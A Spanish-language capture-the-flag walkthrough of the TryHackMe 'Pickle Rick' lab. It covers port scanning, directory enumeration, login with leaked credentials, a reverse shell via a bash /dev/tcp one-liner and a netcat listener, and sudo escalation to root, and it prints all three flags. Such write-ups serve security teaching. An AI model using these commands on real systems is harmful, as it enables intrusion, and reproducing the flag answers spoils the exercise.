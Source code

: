 # Pickle Rick

![image.png](./imagenes/PickleRick/image.png)

Maquinas que vamos a utilizar Kali Llinux y Pickle Rick  https://tryhackme.com/room/picklerick

- Vamos a mirar nuestra IP
    
    ```bash
    ifconfig
    ```
    
    ![image.png](./imagenes/PickleRick/image%201.png)
    
    En este caso como estamos en un VPN nuestra Ip esta en el interface tun0: IP : **10.21.203.172**
    

- La IP de la maquina victima es: **10.10.214.144**
    
    ![image.png](./imagenes/PickleRick/image%202.png)
    

---

```bash
sudo nmap -p- -sS -sV --min-rate=5000 -n -vvv -Pn 10.10.214.144
```

![image.png](./imagenes/PickleRick/image%203.png)

- Vamos a ver lo que esta corriendo en el puerto 80 atraves del navegador web.
    
    ![image.png](./imagenes/PickleRick/image%204.png)
    
    - Inspeccionamos el código fuente de la web `CTRL+U`
        
        ![image.png](./imagenes/PickleRick/image%205.png)
        
        Tenemos nuestra primera posible pista. un nombre de usuario:  `R1ckRul3s`
        

- Listamos directorios con Gobuster y buscamos posibles archivos con distintas extensiones.
    
    ```bash
    gobuster dir -u [http://10.10.214.144/](./imagenes/PickleRick/http://10.10.214.144/) -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
    ```
    
    ![image.png](./imagenes/PickleRick/image%206.png)
    
    Encontramos una posible ruta donde probar el usuario que hemos encontrado así como el archivo robots.txt el cual vamos a mirar su contenido.
    
    - Contenido del robots.txt
        
        ![image.png](./imagenes/PickleRick/image%207.png)
        
        Nos lo apuntamos por si es alguna contraseña o nos pueda servir para algo mas adelante. `Wubbalubbadubdub`
        
    - Vamos a la pagina de Login.php y probamos el usuario y la posible contraseña que hemos encontrado
        
        ![image.png](./imagenes/PickleRick/image%208.png)
        
    - Nos encontramos una barra de comandos que responde a comandos de Linux aunque no a todos. Hacemos un `ls`  y vemos varios archivos de texto que puede ser interesantes.
        
        ![image.png](./imagenes/PickleRick/image%209.png)
        
    
    - Escribimos `less Sup3rS3cretPickl3Ingred.txt`
        
        ![image.png](./imagenes/PickleRick/image%2010.png)
        
         Ya tenemos la primera Flag: `mr. meeseek hair`
        
        NOTA: El archivo clue.txt no contenía nada interesante.
        
- Aprovechando que acepta comando vamos a intentar introducir un código para crear un reverse Shell.
    - Nos vamos a la web: [https://www.revshells.com/](./imagenes/PickleRick/https://www.revshells.com/)
        
        ![image.png](./imagenes/PickleRick/image%2011.png)
        
        Obtenemos esta reverse Shell **`sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1` pero debemos adaptarla para que nos la coja correctamente añadiendo al principio `bash -c` y la revershell es importante ponerlo entre comillas rectas `" "`.
        
        `bash -c "**sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1"`
        
    - En un terminal nos ponemos a la escucha en el puerto 443 con netcat.
        
        ```bash
        sudo nc -nlvp 443  
        ```
        
        ![image.png](./imagenes/PickleRick/image%2012.png)
        
    - Lanzamos el comando de la Reverse Shell
        
        ![image.png](./imagenes/PickleRick/image%2013.png)
        
        Obtenemos una conexio
        
        ![image.png](./imagenes/PickleRick/image%2014.png)
        

---

### Vamos a empezar el tratamiento de la TTY .

Nos colocamos en la terminal de la maquina victima.

- Escribimos el siguiente comando  y veremos que adquirimos un prompt.
    
    `script /dev/null -c bash`
    
- Hacemos un **`CTRL+Z`**

- Escribimos a continuación.
    
    `stty raw -echo; fg`
    

- Escribimos `reset xterm` . Es posible que no se muestre cuando lo escribimos pero aun así lo escribimos y pulsamos Enter. Y nos aparecerá la siguiente pantalla.

- Por ultimo tenemos que exportar 2 variables. escribimos lo siguiente.
    
    `export TERM=xterm`
    
    `export SHELL=bash`
    
    Con esto ya abrimos estabilizado el terminal y ya nos aceptaría los comandos que antes no lo hacia.
    

---

- Nos movemos al directorio raíz y desde hay vamos investigando. en este caso voy al directorio `home`
    - `cd /`
        
        `cd home`
        
        `ls -la`
        
        ![image.png](./imagenes/PickleRick/image%2015.png)
        

- Miramos dentro de la carpeta rick
    
    `cd rick/`
    
    `ls -la`
    
    ![image.png](./imagenes/PickleRick/image%2016.png)
    

- Miramos el contenido del archivo
    
    `cat 'second ingredients’`
    
    ![image.png](./imagenes/PickleRick/image%2017.png)
    
    Ya tenemos la segunda Flag: `1 jerry tear`
    

---

Vamos a intentar escalar privilegios con Sudo -l

- `sudo -l`
    
    ![image.png](./imagenes/PickleRick/image%2018.png)
    
    Vemos que podemos ser root sin necesidad de contraseña.
    
    `sudo su`
    
    `whoami`
    
    ![image.png](./imagenes/PickleRick/image%2019.png)
    
- Seguimos investigando y vamos a la carpeta root
    
    `cd root`
    
    `ls -la`
    
    ![image.png](./imagenes/PickleRick/image%2020.png)
    

- Miramos el contenido del archivo 3rd.txt
    
    `cat 3rd.txt` 
    
    ![image.png](./imagenes/PickleRick/image%2021.png)
    
    Ya tenemos la tercera Flag: `fleeb juice`